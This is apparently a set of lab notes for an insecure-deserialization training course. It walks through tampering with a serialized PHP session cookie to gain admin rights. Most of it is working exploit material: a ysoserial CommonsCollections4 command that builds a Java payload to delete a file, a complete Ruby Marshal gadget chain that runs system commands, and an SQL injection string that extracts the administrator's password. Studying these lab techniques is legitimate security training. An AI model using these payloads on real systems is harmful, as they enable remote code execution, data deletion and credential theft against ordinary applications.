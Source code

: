 #  Insecure deserialization



## 1. Lab: Modifying serialized objects
- Log in with your normal user account.
- Check the session cookie in the /my-account request—it’s URL and Base64-encoded.
- Decode the cookie in Burp’s Inspector. You’ll see a serialized PHP object. The admin attribute is b:0 (false).
- Send the request to Repeater and change b:0 → b:1 to make yourself an admin. Apply changes.
- Send the request—you should now see a link to /admin.
- Go to /admin, and you’ll see options to delete users.
- Delete Carlos’ account by sending a request to /admin/delete?username=carlos.





```
java \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED \
  --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED \
  --add-opens=java.base/java.net=ALL-UNNAMED \
  --add-opens=java.base/java.util=ALL-UNNAMED \
  -jar ysoserial-all.jar CommonsCollections4 "rm /home/carlos/morale.txt" | base64 -w0

```




## Ruby Compiler : 
- https://www.jdoodle.com/execute-ruby-online 
- https://www.adaface.com/online-compiler/online-ruby-compiler
- https://my.newtonschool.co/playgrounds/ruby-compiler

```
# Autoload the required classes

Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    require 'base64'
    require 'net/http'
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```


- 
```
        ProductTemplate originalObject = new ProductTemplate("' UNION SELECT NULL,NULL,NULL,cast(password as numeric),NULL,NULL,NULL,NULL FROM users where username='administrator' --' ");

```